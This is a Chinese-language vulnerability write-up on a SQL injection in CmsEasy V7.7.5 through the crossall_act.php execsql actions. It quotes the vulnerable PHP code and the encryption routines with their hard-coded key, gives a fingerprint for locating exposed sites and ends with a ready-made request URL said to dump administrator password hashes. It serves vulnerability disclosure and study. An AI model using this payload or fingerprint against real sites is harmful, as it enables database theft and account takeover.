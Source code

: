 # 

# CmsEasy crossall_act.php SQL注入漏洞

## 漏洞描述

CmsEasy 存在SQL注入漏洞，通过文件 service.php 加密SQL语句执行即可执行任意SQL命令

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](./images/202205181431042.png)

存在漏洞的文件为 `lib/default/crossall_act.php`

![image-20220518143156363](./images/202205181431425.png)

其中需要注意的代码为

```
function execsql_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->rec_query_one($sqlquery);
        echo json_encode($returndata);
        exit;
    }
    function execsqls_action(){
            $sqlquery=front::get("sql");
            $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

            $returndata=tdatabase::getInstance()->rec_query($sqlquery);
            echo json_encode($returndata);
            exit;
        }
    function execupdate_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->query($sqlquery);
        echo json_encode($returndata);
        exit;
    }
```

代码中传入参数 sql， 然后使用方法 unlockString 解码执行 SQL语句

查看文件 `lib/table/service.php`

```
public static function lockString($txt,$key='cmseasy_sql')
    {
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $nh = rand(0,64);
        $ch = $chars[$nh];
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = base64_encode($txt);
        $tmp = '';
        $i=0;$j=0;$k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = ($nh+strpos($chars,$txt[$i])+ord($mdKey[$k++]))%64;
            $tmp .= $chars[$j];
        }
        return urlencode($ch.$tmp);
    }

    /**对字符串进行解密。 crossall_act文件使用
     * @param $txt
     * @param string $key
     * @return bool|string
     */
    public static function unlockString($txt,$key='cmseasy_sql')
    {
        $txt = urldecode($txt);
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $ch = $txt[0];
        $nh = strpos($chars,$ch);
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = substr($txt,1);
        $tmp = '';
        $i=0;$j=0; $k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = strpos($chars,$txt[$i])-$nh - ord($mdKey[$k++]);
            while ($j<0) $j+=64;
            $tmp .= $chars[$j];
        }
        return base64_decode($tmp);
    }
```

文件中得到了 `$key='cmseasy_sql'` 和加解密方法，构造请求获取账号密码md5

![image-20220518143235578](./images/202205181432691.png)

```
/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5
```

![image-20220518143250910](./images/202205181432971.png)
